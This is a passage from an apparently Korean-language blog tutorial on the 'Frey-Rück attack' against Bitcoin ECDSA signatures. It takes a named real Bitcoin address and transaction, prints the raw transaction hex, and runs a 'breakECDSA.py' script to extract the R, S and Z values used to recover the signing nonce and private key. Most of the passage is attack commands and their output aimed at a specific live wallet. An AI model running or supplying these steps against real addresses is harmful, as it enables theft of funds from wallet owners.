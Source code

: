 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>공격을 위한 RawTX 준비</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong><a href="https://btc1.trezor.io/address/16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG" target="_blank" rel="noreferrer noopener">16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG</a></strong></p>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/81384edbf408aa501814582663386ae25819c7b14c89d69e36250059f2399128
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-15-1024x97.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-771"/></figure>



<pre class="wp-block-code"><code>RawTX = 01000000011c2b74d4b3ccdd96201841bce8931efa4b40c0dcd11ce52bafe3167bc5c7f741120000006b483045022003af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644022100a66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000
</code></pre>



<h2>이제 모든 취약한 트랜잭션에서 모든 R, S, Z 값을 가져와야 합니다.</h2>



<p>breakECDSA.py 스크립트를 사용해봅시다.</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 01000000011c2b74d4b3ccdd96201841bce8931efa4b40c0dcd11ce52bafe3167bc5c7f741120000006b483045022003af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644022100a66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-47-1024x243.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-975"/></figure>



<pre class="wp-block-code"><code>R = 0x03af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644
S = 0xa66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a
Z = 0xb6d536f025718d424e97ea40e0a86eb32f3f7d3673c4d0decb1a71466235d4de</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>

